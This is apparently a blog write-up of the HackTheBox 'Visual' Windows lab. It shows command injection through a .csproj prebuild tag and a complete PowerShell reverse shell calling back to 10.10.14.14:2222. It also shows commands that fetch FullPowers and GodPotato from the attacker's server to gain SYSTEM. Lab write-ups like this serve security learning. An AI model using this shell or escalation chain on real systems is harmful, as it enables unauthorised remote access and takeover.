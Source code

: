 ```yaml
---
layout: post
title: "Visual-Windows-Medium"
date:   2025-07-10 12:05:57 -0400
categories: writeups
thumb: /assets/images/logos/a75ac8ed04e6e728547538bfa41cfc68.webp
---
```


# Visual

HackTheBox: Medium

<aside>
💡 Visual is a windows machine which handles with repositories and build visual studio projects

</aside>

## 1: Enumeration

- nmap scanning

![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled.png' | relative_url }})

We find there’s a http service hosted in apache with php

![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled_1.png' | relative_url }})

This service allows to make the build project in a automated way, we can see a section where we just put the url repo and wait for it.

First at all we test functionality

To get into the machine successfully we need some files:

1. A repository with c# code
2. A file .csproj and .sln
3. A rev shell to access to the machine once the code is injected

> The machine doesn’t have access to internet therefore we need to run a private server where we could get the repo, we get this in this way
> 

```bash
git --bare clone external_repo
cd repo/.git
git --bare update-server-info
mv hooks/post-updte.sample hooks/post-update
cd ..
python -m http.server 8000
```

> .csproj = This file has the possibility of iinject commands through prebuild tag.
> 

![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled_2.png' | relative_url }})

 

## 2: User flag

```bash
$socket = new-object System.Net.Sockets.TcpClient('10.10.14.14', 2222);
if($socket -eq $null){exit 1}
$stream = $socket.GetStream();
$writer = new-object System.IO.StreamWriter($stream);
$buffer = new-object System.Byte[] 1024;
$encoding = new-object System.Text.AsciiEncoding;
do
{
	$writer.Flush();
	$read = $null;
	$res = ""
	while($stream.DataAvailable -or $read -eq $null) {
		$read = $stream.Read($buffer, 0, 1024)
	}
	$out = $encoding.GetString($buffer, 0, $read).Replace("`r`n","").Replace("`n","");
	if(!$out.equals("exit")){
		$args = "";
		if($out.IndexOf(' ') -gt -1){
			$args = $out.substring($out.IndexOf(' ')+1);
			$out = $out.substring(0,$out.IndexOf(' '));
			if($args.split(' ').length -gt 1){
                $pinfo = New-Object System.Diagnostics.ProcessStartInfo
                $pinfo.FileName = "cmd.exe"
                $pinfo.RedirectStandardError = $true
                $pinfo.RedirectStandardOutput = $true
                $pinfo.UseShellExecute = $false
                $pinfo.Arguments = "/c $out $args"
                $p = New-Object System.Diagnostics.Process
                $p.StartInfo = $pinfo
                $p.Start() | Out-Null
                $p.WaitForExit()
                $stdout = $p.StandardOutput.ReadToEnd()
                $stderr = $p.StandardError.ReadToEnd()
                if ($p.ExitCode -ne 0) {
                    $res = $stderr
                } else {
                    $res = $stdout
                }
			}
			else{
				$res = (&"$out" "$args") | out-string;
			}
		}
		else{
			$res = (&"$out") | out-string;
		}
		if($res -ne $null){
        $writer.WriteLine($res)
    }
	}
}While (!$out.equals("exit"))
$writer.close();
$socket.close();
$stream.Dispose()
```

Con este rev shell ponemos en escucha en el puerto establecido y ya obtenemos acceso 

```powershell
cmd /c type c:\Users\enox\Desktop\user.txt
```

## 3: Priv esc

wrapper pred:

```powershell
cd C:\xampp\htdocs\uploads
```

Revisamos privilegios

```powershell
whoami /priv
```

Check some privileges and look “ImpersonatePrivilege” is not present

![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled_3.png' | relative_url }})

We cannot modify or access to files but we can create them

Use the server early running and add fullpowers, a POC that rest default privileges

With impersonate privileges we can assume other identities, sometime interesting that happens to me in this machine is that i had to reset the machine to make work fullpowers properly

```powershell
cmd /c powershell Invoke-WebRequest -Uri http://10.10.00.000:0000/fullpowers.exe -OutFile Fullpowers.exe
fullpowers.exe
```

![Untitled]({{ '/assets/images/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f/053ed3ea-d2e7-46e5-a8b0-b01f7f457444-export-0290a086-8ce8-4e90-aaee-96808973454f_Untitled_4.png' | relative_url }})

We got all priv is time to use godpotato and get the whole power

```powershell
powershell Invoke-WebRequest -Uri http://10.10.14.14:8000/GodPotato.exe -OutFile GodPotato.exe
GodPotato-NET64 -cmd "cmd /c type C:\Users\Administrator\Desktop\root.txt"
```

There was a problem, godpotato which will allow us to run commands as system had 3 exe’s and only the 64 one worked

Machine pwned!!
<script src="{{ '/assets/js/matrix-overlay.js' | relative_url }}"></script>
